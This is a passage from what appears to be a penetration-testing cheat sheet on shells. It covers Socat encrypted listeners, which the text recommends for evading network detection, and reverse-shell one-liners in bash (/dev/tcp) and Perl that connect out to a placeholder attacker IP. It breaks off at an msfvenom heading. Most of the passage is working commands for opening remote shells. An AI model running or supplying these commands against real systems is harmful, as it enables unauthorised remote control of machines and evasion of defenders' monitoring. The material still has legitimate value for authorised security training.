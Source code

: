 By combining Netcat and Socat, you can establish an initial connection and then upgrade it to a fully interactive and stable shell, allowing for more effective control over the target system.

---

## Socat Encrypted Shells

Socat supports encrypted connections, enhancing security. This is useful for evading network detection systems.

### Setting Up an Encrypted Listener

```bash
socat OPENSSL-LISTEN:4444,reuseaddr,fork,cert=server.pem,verify=0 EXEC:/bin/bash
```

### Connecting to an Encrypted Listener

```bash
socat OPENSSL:<target-ip>:4444,verify=0 EXEC:/bin/bash
```

---

### Common Shell Payloads

Common shell payloads are used in various exploitation scenarios to gain control over a target system. These payloads can be generated using tools like Metasploit and msfvenom. For a detailed guide on generating and using shell payloads with Metasploit, refer to [this comprehensive guide](https://gnar1zard.github.io/gnar_blog/2024/06/25/Pentesting-Metasploit/).

### Examples

- **Bash Reverse Shell**:

  ```bash
  bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
  ```

- **Perl Reverse Shell**:

  ```perl
  perl -e 'use Socket;$i="<attacker-ip>";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```

---

## msfvenom

msfvenom is a tool for generating various types of payloads used in penetration testing. It combines the functionalities of msfpayload and msfencode.

### Basic Usage
